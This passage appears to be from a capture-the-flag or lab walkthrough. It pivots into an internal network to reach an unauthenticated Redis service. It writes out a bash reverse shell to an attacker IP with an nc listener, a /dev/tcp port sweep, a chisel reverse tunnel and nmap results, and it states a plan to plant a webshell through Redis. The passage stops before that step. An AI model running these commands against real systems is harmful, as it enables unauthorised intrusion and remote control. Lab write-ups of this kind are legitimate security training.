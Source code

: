 Let’s have another reverse shell so we can scan the other machine’s port

```bash
attack host:
nc -lnvp 7001

pivot host:
bash -c "bash -i >& /dev/tcp/10.10.14.132/7001 0>&1"

```

port sweep

```bash
for port in $(seq 1 65535); do
(echo hello > /dev/tcp/172.19.0.2/$port && echo "open - $port") 2>/dev/null
done

result:
6379
```

Now set up another reverse pivot with chisel

```bash
On pivot host:
/tmp/chisel client 10.10.14.132:8110 R:127.0.0.1:6379:172.19.0.2:6379
```

Now we can scan for what kind of service it is:

```bash
sudo nmap -sC -sV -p 8112 localhost

result:
PORT     STATE SERVICE VERSION
8112/tcp open  redis   Redis key-value store
```

Now search on Google redis remote command execution; [https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html](https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html)

Let’s test if there is authentication for redis

```bash
telnet localhost 6379
echo "Hey no AUTH required!"

result:
Hey no AUTH required!

```

Looks like there is no authentication. Let’s connect to redis and look through the database. There are nothing on the database but since we have all permission, we can write a simple webshell and attempt to visit the page. First let’s connect with redis-cli:
